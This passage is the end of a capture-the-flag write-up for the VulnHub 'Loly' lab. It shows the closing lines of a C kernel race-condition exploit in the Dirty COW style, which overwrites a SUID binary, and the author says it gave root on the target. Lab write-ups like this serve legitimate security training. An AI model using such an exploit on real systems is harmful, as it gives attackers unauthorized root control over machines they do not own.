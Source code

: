 ```c

    map = mmap(NULL,st.st_size,PROT_READ,MAP_PRIVATE,f,0);

    printf("Racing, this may take a while..\n");

    pthread_create(&pth1, NULL, &madviseThread, suid_binary);
    pthread_create(&pth2, NULL, &procselfmemThread, payload);
    pthread_create(&pth3, NULL, &waitForWrite, NULL);

    pthread_join(pth3, NULL);

    return 0;
}
```
Now we just compile this code and run in the target .
![img](/assets/vulnhub_loly/bg_8.png)

Just igrone the warning and run this.

![img](/assets/vulnhub_loly/bg_9.png)

Boom!! we are root now, this so easy for people script kiddie like me :D, And thats it my writeup of Loly from vulnhub i hope you enjoy

Happy hacking :D.